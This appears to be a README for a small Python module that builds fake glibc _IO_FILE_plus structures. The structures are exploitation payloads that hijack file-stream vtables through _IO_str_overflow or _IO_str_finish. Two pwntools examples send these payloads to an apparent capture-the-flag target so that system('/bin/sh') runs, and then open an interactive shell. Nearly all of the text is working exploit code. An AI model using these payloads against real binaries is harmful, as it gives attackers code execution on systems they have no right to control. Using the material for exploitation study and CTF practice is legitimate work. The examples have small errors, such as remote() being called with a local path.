 # _IO_FILE.py
Create _IO_FILE structure and create payload _IO_str_overflow() and _IO_str_finish().

This module creates _IO_FILE_plus structure.

And if you want to payload, you call `set_IO_str_overflow()` or `set_IO_str_finish()`.

## How to use

If you want to call `_IO_str_oveflow()`, you have to use function `set_IO_str_overflow()` and this function return payload that is _IO_FILE_plus structure.

For example, follow the code.

```python
from pwn import *
import _IO_FILE

p = remote("./challenge")
# Leak libc_base and get gadget system, binsh ...

io_file = _IO_FILE._IO_file_plus()
payload = io_file.set_IO_str_overflow({"_lock" : p64(fake_lock),
                                        "_IO_write_ptr" : p64(binsh),
                                        "_IO_buf_end" : p64(binsh),
                                        "vtable" : p64(_IO_str_overflow_addr),
                                        "jump": p64(system)
                                    })
print(payload)

p.sendline(payload)
p.interactive()
```


Or if you want to call `_IO_str_finish()`, follow code.

```python
from pwn import *
import _IO_FILE

p = remote("./challenge")
# Leak libc_base and get gadget system, binsh ...

io_file = _IO_FILE._IO_file_plus()
payload = io_file.set_IO_str_finish({"_lock" : p64(fake_lock),
                                        "_IO_write_end" : p64(binsh),
                                        "_IO_buf_base" : p64(binsh),
                                        "vtable" : p64(_IO_str_finish_addr),
                                        "jump" : p64(system)
                                    })
print(payload)

p.sendline(payload)
p.interactive()
```
